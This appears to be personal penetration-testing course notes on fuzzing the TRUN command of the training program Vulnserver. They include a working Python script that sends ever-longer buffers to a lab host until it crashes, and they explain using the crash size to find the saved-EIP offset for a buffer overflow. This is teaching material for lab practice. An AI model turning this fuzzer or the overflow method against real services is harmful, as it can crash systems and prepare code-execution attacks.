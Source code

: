 
# Fuzzing
> Keep vulnserver and Immunity Debugger running from [spiking](/PNPT/PEH/buffer-overflows/spiking.md) section (run them with Admin privileges).

The difference between spiking and fuzzing is that in spiking we're *attacking multiple commands* in order to find vulnerable ones, and in fuzzing we're *attacking a single command* (which we know is vulnerable) in order to build an effective [buffer overflow](PEH/buffer-overflows/buffer-overflow-basics.md).
## Python Script
```python
`#!/usr/bin/python
import sys, socket
from time import sleep

# Create the buffer of 'A' characters
buffer = "A" * 100

while True:
	try:
		# Build the payload by appending the TRUN command to the buffer
		payload = "TRUN /.:/" + buffer

		# Create, open, and connect to the socket (connecting to target)
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.1.35',9999))

		# Send the payload to target
		print ("[+] Sending the payload...\n" + str(len(buffer)))
		s.send(payload)
		
		# Close connection and what 1 second
		s.close()
		sleep(1)

		# (if we haven't crashed) increase buffer length by 100 bytes & try again
		buffer = buffer + "A"*100
	except:
		# When the target crashes, print the number of bytes it took
		print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()`
```
In this script first we're creating a buffer of 100 `A` characters. Then, we're initiating a while loop in which our payload (the `TRUN` command + our `buffer`) is sent over the wire to the vulnerable program running at `192.168.1.35:9999`.

Each iteration of the while loop we send our payload, wait one second, then close the connection before finally increasing our buffer by 100 more `A` characters. When the program crashes, the `except` block will be triggered.

By putting all this in a `try...except`,  we're using the *crash of the vulnerable program* as a signal that we've successfully overwritten the instruction pointer (saved `EIP`), just like we did in the spiking step. 

The difference here is that when we crash we're *capturing the total amount of bytes (`A` characters)* we had to send *in order to crash the program*. The number of bytes will tell us *the offset from the `TRUN` command buffer on the stack to the saved`EIP`*.
### Why do we Need the Offset?
We need to know the offset between the vulnerable command on the stack `TRUN` and the saved `EIP` because our plan is to overwrite the *exact address of the saved `EIP`* with an address *we control*.

When compiled into a binary, the vulnerable program will *take up the same amount of addresses on the stack* on any (x86) machine it runs on as it does on our vulnerable machine right now. So the offset is static.

Once we know the offset, we can create our buffer overflow exploit using a payload of the same length as the offset. At the end of the payload, we place the address we want to send the CPU to. By the end, our payload will look something like this (replace `name` with `TRUN`):
![](/PNPT-pics/fuzzing-1.png)
> My [writeup on basic buffer overflow](https://trshpuppy.github.io/portfolio/writeups/basic-buffer-overflow)

## Running the Script
Once the script is finished, save it and remember to give it execution permissions using `chmod +x fuzz.py`. Make sure Immunity debugger is running w/ the vulnerable program attached and also running, then you can execute `fuzz.py`.

Once it crashes (around 2700 bytes) we can inspect the crash in Immunity:
![](/PNPT-pics/fuzzing-2.png)
We can see that the `EIP` wasn't overwritten, but that's okay. We're trusting that since the program crashed, the buffer length in bytes was long enough. So let's move on, working with *an offset around 3000 bytes*.

> [!Resources]
> -  [Vulnserver](https://thegreycorner.com/vulnserver.html) 
> - [Immunity Debugger](https://www.immunityinc.com/products/debugger/) 
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
> - My [writeup on basic buffer overflow](https://trshpuppy.github.io/portfolio/writeups/basic-buffer-overflow)
